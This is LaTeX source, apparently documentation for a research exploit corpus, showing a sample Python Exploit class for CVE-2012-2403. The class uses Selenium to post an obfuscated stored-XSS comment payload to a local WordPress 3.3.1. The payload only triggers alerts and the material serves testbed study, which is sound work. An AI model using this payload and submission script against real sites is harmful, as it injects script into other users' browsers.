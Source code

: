\documentclass[letterpaper,twocolumn,10pt]{article}
\begin{document}
   The {\bf Targets} module has as submodules each application and application plugin that are associated with an exploit.
\textcolor{red}{The anatomy of a ``Target'' module}

\subsection{Exploit}
 {\bf Exploit} is the superclass for each exploit in the corpus, defining interfaces and attributes that the engine uses to manage the environment and exploitation.


Management actions, recording commands
attributes,
\begin{verbatim} 
__init__()
exploit()
check() [not yet]
cleanup()
\end{verbatim}

{\tt \small
\begin{figure}[!ht]
\begin{verbatim}
import corpus

class Exploit (corpus.Exploit):

    def __init__(self):
        corpus.Exploit.__init__(self, {
                'Name' :        "CVE_2012_2403",
                'Description' : "Creates a post containing a XSS payload.",
                'References' :  [['CVE','2012-2403'],
                                 ['OSVDB','81463']],
                'Target' :      "Wordpress 3.3.1",
                'Type' :        "XSS",
                'VulWikiPage' : "http://seamster.cs.umd.edu/CVE-2012-2403"
                })
        return
            
    def exploit(self):

        payload = "<a href=\"#\" title=\"XSS http://example.com/onmouseover"
                  "=eval(unescape(/%61%6c%65%72%74%28%31%29%3b%61%6c%65%72"
                  "%74%28%32%29%3b%61%6c%65%72%74%28%33%29%3b/.source))//\"
                  ">XSS</a>"

        driver = self.create_selenium_driver()
        driver.get("http://localhost/wordpress/?p=1")
        driver.find_element_by_id("author").clear()
        driver.find_element_by_id("author").send_keys("selenium script")
        driver.find_element_by_id("email").clear()
        driver.find_element_by_id("email").send_keys("selenium@python.org")
        driver.find_element_by_id("url").clear()
        driver.find_element_by_id("url").send_keys("www.python.org")
        driver.find_element_by_id("comment").clear()
        driver.find_element_by_id("comment").send_keys(payload)
        driver.find_element_by_id("submit").click()
        driver.cleanup()

        return

if __name__ == "__main__": # Exploit invoked from command-line
    engine = corpus.Engine(Exploit())
    engine.parse_args(sys.argv)
\end{verbatim}
\end{figure}
}
\end{document}
